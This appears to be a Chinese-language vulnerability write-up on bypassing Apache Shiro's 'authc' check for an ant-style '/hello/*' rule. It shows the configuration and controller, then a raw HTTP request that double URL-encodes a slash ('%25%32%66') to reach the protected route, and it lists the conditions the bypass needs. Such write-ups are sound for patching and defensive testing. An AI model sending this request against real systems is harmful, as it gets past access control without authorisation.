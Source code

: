         @Bean
        SecurityManager securityManager() {
            DefaultWebSecurityManager manager = new DefaultWebSecurityManager();
            manager.setRealm(myRealm());
            return manager;
        }
     
        @Bean
        ShiroFilterFactoryBean shiroFilterFactoryBean() {
            ShiroFilterFactoryBean bean = new ShiroFilterFactoryBean();
            bean.setSecurityManager(securityManager());
            bean.setLoginUrl("/login");
            bean.setSuccessUrl("/index");
            bean.setUnauthorizedUrl("/unauthorizedurl");
            Map<String, String> map = new LinkedHashMap<>();
            map.put("/hello/*", "authc");
            bean.setFilterChainDefinitionMap(map);
            return bean;
        }
    }

这里我配置了

    map.put("/hello/*", "authc");

同时我编写了对应的controller像这样

    @GetMapping("/hello/{name}")
    public String hello(@PathVariable String name) {
        return "hello";
    }
     

以上操作代表着我通过ant风格的语法设置了去检查在访问 `/hello`
路由之后的一级目录的用户是否有权限。

如果你请求 `/hello/aaa` 那么你将会被禁止。

1.jpg

但是这里我们可以通过url双编码来绕过。

    / -> %2f ->%25%32%66
     
    GET /hello/a%25%32%66a HTTP/1.1
    Host: www.0-sec.org:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Connection: close
    Upgrade-Insecure-Requests: 1
     

2.jpg

现在它成功了

当然这个漏洞需要一些限制条件，首先权限ant风格的配置需要是 `*` 而不是
`**`
，同时controller需要接收的request参数(\@PathVariable)的类型需要是String，否则将会出错。
